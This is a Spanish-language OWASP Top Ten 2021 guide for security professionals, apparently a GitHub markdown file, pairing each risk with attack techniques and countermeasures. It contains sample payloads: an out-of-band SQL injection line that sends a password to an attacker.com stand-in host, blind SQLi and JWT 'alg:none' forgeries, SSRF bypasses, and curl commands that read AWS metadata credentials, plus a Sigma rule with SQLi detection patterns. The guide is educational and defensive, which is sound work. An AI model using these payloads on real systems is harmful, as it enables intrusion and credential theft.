


# OWASP Top Ten (2021)

## Introducción
El **Open Web Application Security Project (OWASP) Top Ten** representa el consenso de expertos sobre los riesgos de seguridad críticos para aplicaciones web. Esta guía técnica profundiza en aspectos avanzados de cada vulnerabilidad, dirigida a profesionales de ciberseguridad y estudiantes que buscan comprensión exhaustiva más allá de los conceptos básicos.

---

## A01:2021 - Broken Access Control (Control de Acceso Vulnerable)

### Mecanismos Subyacentes
- **Fallos en implementación de políticas RBAC/ABAC**: Mala asignación de privilegios o herencia incorrecta en árboles de permisos
- **IDOR (Insecure Direct Object References)**: No validación de ownership en endpoints como `/api/users/{id}/data`
- **Manipulación de JWT**: Uso de algoritmos "none", falta de verificación de firma, explotación de kid header injection
- **Bypass de CORS**: Configuraciones permisivas que permiten ataques CSRF a través de dominios whitelisted

### Técnicas de Explotación Avanzadas
```http
# IDOR Horizontal con UUID predecibles
GET /api/v2/invoices/550e8400-e29b-41d4-a716-446655440000
# UUID v1 contiene timestamp y dirección MAC
# UUID v4 puede tener entropía insuficiente

# JWT Attacks
Header: {"alg":"none", "typ":"JWT"}
Payload: {"user":"admin", "exp":9999999999}
```

### Contramedidas Específicas
- Implementar **Políticas de Acceso Basadas en Atributos (ABAC)** con evaluadores contextuales
- Usar **UUID v7** con mayor entropía y estructura temporal
- Aplicar **Double Submit Cookie Pattern** para protección CSRF en APIs stateless
- Implementar **Rate Limiting diferencial** por niveles de privilegio

---

## A02:2021 - Cryptographic Failures (Fallos Criptográficos)

### Vulnerabilidades en Implementaciones
- **Modos de operación ECB**: Patrones visibles en datos cifrados
- **Padding Oracle Attacks**: CBC con relleno PKCS#7
- **Insecure Key Derivation**: PBKDF2 con bajo número de iteraciones (< 100,000)
- **Weak Randomness**: `Math.random()` en Node.js o `rand()` en C

### Análisis de Algoritmos
```python
# Detección de modo ECB
import base64
def detect_ecb(ciphertext):
    blocks = [ciphertext[i:i+16] for i in range(0, len(ciphertext), 16)]
    return len(blocks) - len(set(blocks))

# Ataque a CBC con Padding Oracle
def padding_oracle_attack(ciphertext, oracle):
    # Implementación de Vaudenay
    plaintext = b''
    for block_index in range(len(ciphertext)//16 - 1, 0, -1):
        decrypted_block = b''
        intermediate = b''
        # ...
```

### Buenas Prácticas Avanzadas
- Usar **AES-GCM** con nonces únicos (no aleatorios)
- Implementar **HPKE (Hybrid Public Key Encryption)** para encapsulación de claves
- **Memory-hard KDFs** como Argon2id con parámetros: m=19456, t=2, p=1
- **Forward Secrecy** con ECDHE utilizando curvas P-384 o X25519

---

## A03:2021 - Injection (Inyección)

### Técnicas de Inyección Especializadas

#### SQLi Avanzado
```sql
-- Time-Based Blind SQL Injection con conditional queries
SELECT CASE WHEN (SELECT SUBSTRING(password,1,1) FROM users WHERE id=1)='a' 
       THEN pg_sleep(10) ELSE pg_sleep(0) END

-- Out-of-Band Data Exfiltration
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),'.attacker.com\\test'))
```

#### Inyección NoSQL
```javascript
// MongoDB Injection con operadores de consulta
{"$where": "function() { return this.username == 'admin' && this.password == '"+password+"'; }"}

// Injection en operadores de array
{"roles": {"$elemMatch": {"$eq": "admin"}}}
```

#### Inyección de Comandos
- **Bypass de filtros** con codificación Unicode, variables de entorno
- **Command chaining** con `;`, `&&`, `||`, `|`
- **Process substitution**: `cat <(ls -la)`

### Protecciones Específicas
- **ORM con Parameter Binding**: SQLAlchemy, Hibernate Criteria API
- **Runtime Application Self-Protection (RASP)**: Monitoreo de ejecución de consultas
- **Positive Security Model**: Whitelisting de caracteres permitidos por contexto
- **Semantic Analysis**: Detección de anomalous query patterns

---

## A04:2021 - Insecure Design (Diseño Inseguro)

### Patrones de Diseño Vulnerables

#### Flujos de Autenticación
- **Credential stuffing** sin mecanismos de detección
- **Account enumeration** a través de tiempos de respuesta diferenciales
- **Password reset flaws**: Tokens no invalidados, falta de rate limiting

#### Flujos de Negocio
- **Lack of non-repudiation**: Transacciones sin auditoría completa
- **Business logic bypass**: Acceso a funcionalidades premium mediante manipulación de estados

### Threat Modeling Avanzado


### Contramedidas de Diseño
- **Adaptive Authentication**: Nivel de autenticación basado en riesgo
- **Compensating Controls**: Controles de seguridad que mitigan deficiencias de diseño
- **Secure by Default**: Configuraciones más restrictivas por defecto
- **Privacy by Design**: Minimización de datos desde la arquitectura

---

## A05:2021 - Security Misconfiguration (Configuración Insegura)

### Configuraciones Críticas

#### Headers de Seguridad HTTP
```nginx
# Configuración óptima de headers
add_header X-Frame-Options "SAMEORIGIN" always;
add_header X-Content-Type-Options "nosniff" always;
add_header X-XSS-Protection "1; mode=block" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'sha256-...';" always;
add_header Permissions-Policy "geolocation=(), camera=(), microphone=()" always;
```

#### Configuración de Contenedores
```dockerfile
# Dockerfile seguro
FROM alpine:3.18
RUN adduser -D -u 10001 appuser
USER appuser
COPY --chown=appuser:appuser app /app
HEALTHCHECK --interval=30s --timeout=3s --start-period=5s --retries=3 CMD ["curl", "-f", "http://localhost/health"]
```

### Herramientas de Auditoría
- **CIS Benchmarks**: Configuraciones específicas por tecnología
- **kube-bench**: Evaluación de clusters Kubernetes
- **tfsec**: Análisis estático de código de Terraform
- **Chef InSpec**: Verificación de estado de configuración

---

## A06:2021 - Vulnerable and Outdated Components (Componentes Vulnerables y Desactualizados)

### Gestión de Dependencias

#### SCA (Software Composition Analysis)
```yaml
# GitHub Actions workflow para SCA
name: Dependency Scanning
on: [push, pull_request]
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - name: Run Snyk to check for vulnerabilities
        uses: snyk/actions/node@master
        env:
          SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
      - name: OWASP Dependency Check
        uses: dependency-check/Dependency-Check_Action@main
        with:
          project: 'my-app'
          path: '.'
          format: 'HTML'
```

#### SBOM (Software Bill of Materials)
```xml
<!-- CycloneDX SBOM example -->
<bom xmlns="http://cyclonedx.org/schema/bom/1.3" serialNumber="urn:uuid:...">
  <components>
    <component type="library">
      <name>lodash</name>
      <version>4.17.21</version>
      <hashes>
        <hash alg="SHA-256">...</hash>
      </hashes>
      <licenses>
        <license><id>MIT</id></license>
      </licenses>
      <purl>pkg:npm/lodash@4.17.21</purl>
    </component>
  </components>
</bom>
```

### Estrategias de Actualización
- **Patch Management Automation**: Canary deployments con monitoreo
- **Dependency Pinning**: Versiones exactas en lock files
- **Vulnerability Intelligence Feeds**: Integración con NVD, exploit-db
- **Binary Analysis**: Scanning de artefactos compilados

---

## A07:2021 - Identification and Authentication Failures (Fallos de Identificación y Autenticación)

### Ataques Avanzados de Autenticación

#### Credential Stuffing Sofisticado
- **Rotación de IPs** con servicios proxy (BrightData, Oxylabs)
- **Device fingerprinting evasion** mediante Puppeteer-extra-stealth
- **Request throttling** para evadir detección de rate limiting

#### Bypass de MFA
- **SIM swapping** ataques a SMS-based 2FA
- **Push notification fatigue** (MFA bombing)
- **Session hijacking** post-authentication

### Contramedidas Robustas
```python
# Autenticación adaptativa basada en riesgo
def calculate_risk_score(request, user):
    score = 0
    # Geovelocity check
    if distance(previous_login_location, current_location) > 1000:
        score += 25
    
    # Device fingerprint anomaly
    if not device_trusted(user, request.device_fingerprint):
        score += 30
    
    # Behavioral biometrics
    if not typing_pattern_matches(user, request.typing_metrics):
        score += 20
    
    return score

def adaptive_auth(request, user):
    risk_score = calculate_risk_score(request, user)
    
    if risk_score > 75:
        return require_step_up_auth(request, user, "biometric")
    elif risk_score > 50:
        return require_step_up_auth(request, user, "hardware_token")
    elif risk_score > 25:
        return require_step_up_auth(request, user, "sms")
    else:
        return allow_access()
```

---

## A08:2021 - Software and Data Integrity Failures (Fallos de Integridad de Software y Datos)

### Ataques de Cadena de Suministro

#### Dependency Confusion
```json
// package.json vulnerable
{
  "dependencies": {
    "private-package": "^1.0.0"
  }
}
// Atacante publica 'private-package' en npm público
```

#### CI/CD Compromise
- **Secrets exfiltration** desde GitHub Actions
- **Malicious commits** con backdoors
- **Build process manipulation** (dependency substitution)

### Protecciones de Integridad
```bash
# Firmado de commits con GPG
git config commit.gpgsign true
git config user.signingkey 0A46826A

# Verificación de imágenes Docker con Notary
docker trust sign myimage:latest

# In-toto para supply chain security
in-toto-run --step-name build --products app.tar.gz --key builder.key -- docker build .
```

### Técnicas de Verificación
- **Reproducible builds** para verificación de binarios
- **SLSA (Supply-chain Levels for Software Artifacts)** framework
- **Sigstore** para firma y verificación de artefactos
- **Binary authorization** en Kubernetes

---

## A09:2021 - Security Logging and Monitoring Failures (Fallos en Registro y Monitoreo de Seguridad)

### Implementación de Logging Forense

#### Estructura de Logs
```json
{
  "timestamp": "2024-01-15T10:30:00Z",
  "severity": "HIGH",
  "event_type": "AUTHENTICATION_FAILURE",
  "user_id": "anonymous",
  "source_ip": "203.0.113.45",
  "user_agent": "Mozilla/5.0 (compatible; MSIE 6.0; Windows NT)",
  "request_id": "req_abc123",
  "session_id": "sess_xyz789",
  "context": {
    "failed_attempts": 15,
    "account_locked": true,
    "geolocation": "CN",
    "asn": "AS4134",
    "tls_version": "TLSv1.0"
  },
  "detection_metadata": {
    "rule_id": "BRUTE_FORCE_01",
    "confidence": 0.95,
    "mitre_technique": "T1110"
  }
}
```

### SIEM Avanzado y Correlación

#### Reglas de Detección (Sigma)
```yaml
title: Possible SQL Injection Attempt
id: a6b29d1c-3a5a-48a9-8a4c-1a6b29d1c3a5
status: experimental
description: Detects common SQL injection patterns in query parameters
logsource:
  category: webserver
detection:
  selection:
    cs_uri_query|contains:
      - "' OR '1'='1"
      - "UNION SELECT"
      - "WAITFOR DELAY"
      - "SELECT SLEEP("
  condition: selection
falsepositives:
  - Security testing
  - Educational environments
level: high
tags:
  - attack.injection
  - attack.t1190
```

### Arquitectura de Monitoreo


---

## A10:2021 - Server-Side Request Forgery (SSRF)

### Técnicas de Explotación Avanzada

#### Bypass de Filtros
```http
# Bypass con encoding
http://0177.0.0.1  # Octal
http://2130706433   # Decimal
http://0x7f000001   # Hexadecimal
http://127.1        # Short notation

# Domain bypass
http://127.0.0.1.nip.io
http://localtest.me
http://127.0.0.1%2523@evil.com

# URL parser confusion
http://user@127.0.0.1 @evil.com/
```

#### Cloud Metadata SSRF
```bash
# AWS IMDSv1
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/user-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# AWS IMDSv2 (requiere token)
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```

### Contramedidas Específicas
```python
# Validación estricta de URLs con lista blanca
ALLOWED_DOMAINS = {'api.trusted.com', 'cdn.internal'}

def validate_url(url):
    parsed = urlparse(url)
    
    # Validar esquema
    if parsed.scheme not in ['http', 'https']:
        return False
    
    # Resolver y validar IP
    try:
        ip = socket.gethostbyname(parsed.hostname)
        
        # Bloquear IPs privadas y reservadas
        ip_obj = ipaddress.ip_address(ip)
        if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local:
            return False
            
        # Lista blanca de dominios
        if parsed.hostname not in ALLOWED_DOMAINS:
            return False
            
    except (socket.gaierror, ValueError):
        return False
    
    return True

# Network egress filtering con Istio
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: egress-deny-private
spec:
  action: DENY
  rules:
  - to:
    - operation:
        hosts: ["169.254.169.254", "metadata.google.internal"]
```

---

## Metodologías de Prueba Avanzadas

### Threat Modeling Cuantitativo
- **DREAD Scoring**: Damage, Reproducibility, Exploitability, Affected users, Discoverability
- **FAIR Analysis**: Factor Analysis of Information Risk
- **Attack Trees**: Modelado formal de vectores de ataque

### Fuzzing y SAST Avanzado
```bash
# Fuzzing con AFL++ para binaries
AFL_USE_ASAN=1 afl-fuzz -i testcases/ -o findings/ -- ./target_binary @@

# Semgrep para análisis estático
semgrep --config=p/security-audit --metrics=off --json

# CodeQL para análisis semántico
codeql database create mydb --language=javascript
codeql database analyze mydb --format=sarif-latest --output=results.sarif javascript-security-and-quality.qls
```

### Red Team Exercises
- **Purple Teaming**: Colaboración entre ofensiva y defensiva
- **Breach and Attack Simulation**: Plataformas como SafeBreach, AttackIQ
- **Adversary Emulation**: Frameworks como Caldera, MITRE ATT&CK

---

## Herramientas Profesionales de Referencia

### Testing Avanzado
- **Burp Suite Professional**: Extensions como Autorize, Turbo Intruder
- **OWASP ZAP**: Automation Framework, Jenkins integration
- **Nuclei**: Template-based vulnerability scanning

### Análisis de Seguridad
- **Wireshark**: Advanced filtering with display filters
- **Volatility**: Memory forensics for incident response
- **Ghidra**: Reverse engineering complex binaries

### Automatización
- **Scikit-security**: Machine learning for security analytics
- **DefectDojo**: Vulnerability management platform
- **Threat Dragon**: Threat modeling tool

---

## Conclusión y Recursos para Profundización

### Formación Continua
1. **Certificaciones Avanzadas**:
   - OSWE (Offensive Security Web Expert)
   - GWAPT (GIAC Web Application Penetration Tester)
   - CSSLP (Certified Secure Software Lifecycle Professional)

2. **Investigación Académica**:
   - ACM Conference on Computer and Communications Security
   - IEEE Symposium on Security and Privacy
   - USENIX Security Symposium

3. **Comunidades Profesionales**:
   - OWASP Chapters locales
   - Bug Bounty programs (HackerOne, Bugcrowd)
   - Security CTFs (HackTheBox, TryHackMe)

### Tendencias Emergentes
- **AI/ML Security**: Adversarial machine learning
- **Quantum Resistance**: Post-quantum cryptography migration
- **Zero Trust Architectures**: Beyond perimeter security
- **API Security**: GraphQL, gRPC specific vulnerabilities

---

*Documento técnico para referencia. Actualizado según OWASP Top Ten 2021. Revisar periodicamente nuevas versiones y vulnerabilidades emergentes.*
